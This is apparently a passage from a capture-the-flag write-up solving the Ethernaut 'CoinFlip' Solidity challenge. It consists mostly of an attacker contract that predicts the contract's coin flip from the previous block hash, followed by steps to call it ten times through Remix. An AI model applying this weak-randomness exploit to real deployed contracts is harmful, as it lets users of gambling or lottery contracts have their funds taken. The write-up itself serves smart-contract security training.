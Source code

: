 ```solidity
  }
}
```

Solution:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.7;

interface ICoinFlip {
  function flip(bool _guess) external returns (bool);
}

contract HackFlip {
  uint256 public consecutiveWins = 0;
  uint256 lastHash;
  uint256 public FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

  function coinFlipGuess(address _coinFlipAddr) external returns (uint256) {
    uint256 blockValue = uint256(blockhash(block.number - 1));

    if (lastHash == blockValue) {
      revert();
    }

    lastHash = blockValue;
    uint256 coinFlip = blockValue / FACTOR;
    bool side = coinFlip == 1 ? true : false;

    bool isRight = ICoinFlip(_coinFlipAddr).flip(side);
    if (isRight) {
        consecutiveWins++;
    } else {
        consecutiveWins = 0;
    }

    return consecutiveWins;
  }
}
```

Now, simply call `coinFlipGuess` method (on Remix) with `<your-instance-address>` as only parameter, 10 times with successful transaction.

Go back to console and query `consecutiveWins` from `CoinFlip` instance:

```js
await contract.consecutiveWins().then((v) => v.toString());
// Output: '10'
```

Useful links:
